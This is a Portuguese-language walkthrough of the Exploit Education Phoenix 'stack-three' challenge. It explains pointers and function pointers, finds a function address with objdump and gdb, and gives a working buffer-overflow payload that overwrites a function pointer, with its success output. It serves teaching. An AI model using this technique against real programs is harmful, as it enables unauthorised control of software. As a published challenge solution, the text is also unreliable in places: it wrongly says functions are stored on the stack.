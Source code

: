 # Objetivo
Usar um pointer para retornar para uma função pre existente

# Dica
OBS: em Ingles! -> [Wikipedia Pointer](https://en.wikipedia.org/wiki/Pointer_(computer_programming))

# Explicação
  - O que raios são pointers
  - Function pointers
  - Exploit
  
### O que raios são pointers
> Pointers são uma estrutura que, ao invés de armazenar dados, armazena o endereço de outra estrutura.
Lembra do exemplo do poço? Que cada item tinha seu endereço na stack! Então, um pointer armazena esse endereço! :D

O pointer pode ser visto como uma placa na estrada, indicando que X cidade está em Y direção.

![Imagem da wikipedia mostrando um pointer](https://upload.wikimedia.org/wikipedia/commons/thumb/b/b4/Pointers.svg/264px-Pointers.svg.png)
Colunas: Nome da Variavel | Endereço | conteúdo

A variável "a" é um pointer que armazena a localização da variavel "b". Coloquialmente se diz que: "a" está apontando para "b" (seta vermelha).
> "a" armazena uma referencia á "b" !

> "a" pode ser des-referenciada, isto é: Seguir a direção que "a" aponta, para chegar no valor de "b" ! :D

Normalmente, o caractere "&" indica uma referência, e o caractere "*" desreferencia aquele pointer.

> Caso você tente desrefenciar um pointer que não aponta pra nada (NULL), o programa vai interromper a execução e soltar uma mensagem de erro!

### Function Pointers
> Function pointers, ao envés de armazenar o endereço de uma variável, armazenam o endereço de uma função! :D
Sim! Funções também são armazenadas na Stack, e possuem seu endereço! Esse endereço pode ser encontrado por varios métodos:
```
objdump -d <programa> | grep <nome_da_função>


gdb <programa>
  (gdb)> info functions
```
Os dois metodos serão demonstrados em breve! :D

### Exploit
> Buffer overflow, alterarando o valor de um function pointer, redirecionando a execução do programa.
Em lingua não nerd, por favor? :P
> Escrever fora do valor do buffer. O valor que sera corrompido indica aonde a execução do programa esta indo. Se controlamos esse valor, controlamos aonde o programa vai!

#### Analisando o programa
```
função complete_level() {   -> a função que a gente quer chamar
.......
}

função main() {
  criar buffer[64]
  criar fp -> um function pointer
  
  fp = NULL -> vai ser usado para checar se ele foi alterado,
                se continuar sendo NULL, quer dizer que esta intacto.
                
  
  gets(buffer) -> função INSEGURA para abrir um input, salva o valor no buffer
  
  if (fp) {    -> se fp foi alterado
    fp()   -> chama o endereço salvo em fp como se fosse uma função
  } else {
    print(valor nao alterado, tente novamente)
  }
  
  exit
}
```

Nós queremos chamar complete_level(), para isso, faremos fp salvar o seu endereço.

E nós já sabemos como exploitar um gets()! Então tá na hora do trabalho!

#### Encontrando o endereço da função
```
objdump -d    -> Resumindo, printa pro terminal os objetos armazenados na Stack e seus endereços!
gdb           -> Da uma olhada nessa colinha [ainda não fiz, ops :( ](https://github.com/0xturazzi/Writeups/tree/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7) 
```

objdump
```
user@phoenix-amd64:~$ objdump -d /opt/phoenix/amd64/stack-three | grep complete_level
000000000040069d <complete_level>:
```

gdb
```
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-three                
---- Mensagens padrão foram removidas -----
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level              -> Mesmo endereço
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

> O endereço da função é 0x000000000040069d ! :D
Presta atenção na quantidade de null bytes que precedem o endereço. Todo pointer começa com pelo menos dois null bytes, 
e strings terminam com null byte!
Impedindo atacantes (nós), de definir um pointer novo. Nós precisamos usar um que já esta na memoria! (  Spoiler hehehehe :D  )

Como nesse desafio o pointer ja definido e nós só vamos dar um valor para ele, não precisamos nos preocupar com isso,
 dado que os zeros que ficam na stack quando ela esta vazia completarão o endereço pra gente!

#### Cansei de teoria eu quero exploit

Se você quer tentar por conta propria, agora é sua hora de brilhar!
```
Lembretes: Little Endian, o buffer tem 64 bytes, b"\x", o input vem pelo gets(), python > python3
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
eai, brilhou? ;)
```

b"A"*64     # encher o buffer
b"\x9d\x06\x40" # 0x40069d vira "9d 06 40" em LE


Espero que você tenha gostado! :D

# Solução
```
user@phoenix-amd64:~$ python -c "print(b'A'*64 + b'\x9d\x06\x40')" | /opt/phoenix/amd64/stack-three 
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```
